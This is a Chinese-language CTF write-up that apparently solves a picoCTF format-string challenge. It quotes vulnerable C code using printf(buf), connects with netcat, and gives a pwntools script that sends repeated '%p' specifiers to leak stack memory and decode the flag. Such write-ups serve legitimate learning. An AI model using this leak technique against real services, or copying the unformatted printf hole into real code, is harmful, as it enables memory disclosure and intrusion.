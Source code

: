 ```c
  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}
```

可以明顯地看到在第 36 行那邊的`printf(buf)`是沒有加上格式化字符的，所以這邊有一個很明顯的 format string vulnerability。我們用 netcat 連接題目看看。

```bash
nc mimas.picoctf.net 53267
```

連上題目後發現他說 Give me your order and I'll read it back to you，所以我們嘗試輸入`%p`後發現他會輸出一個十六進位的東西。以下是題目的輸出。

```txt
Here's your order: 0x402118
Bye!
```

這看起來可以把它轉回字串，並且如果多輸入幾個`%p`應該就能把 Flag 給 Leak 出來。我寫了一個 Exploit，去嘗試獲取 Flag。在腳本中之所以要把每一段十六進位轉回的字串前後翻轉，是因為題目剛剛有說"I'll read it back to you"，所以推測他應該是反著過來輸出的。Exploit 如下：

```python
from pwn import *
from Crypto.Util.number import long_to_bytes

r = remote("mimas.picoctf.net", 53267)

payload = ",".join(["%p"] * 20)
print(payload)
r.sendline(payload)
r.recvuntil(b"Here's your order: ")
res = r.recvuntil(b"Bye!").decode().removesuffix("Bye!").split(",")

flag = ""
for i in res:
    try:
        flag += long_to_bytes(int(i, 16)).decode()[::-1]
    except ValueError:
        pass

print(flag)
```

果然，執行後就可以看到 Flag 啦。
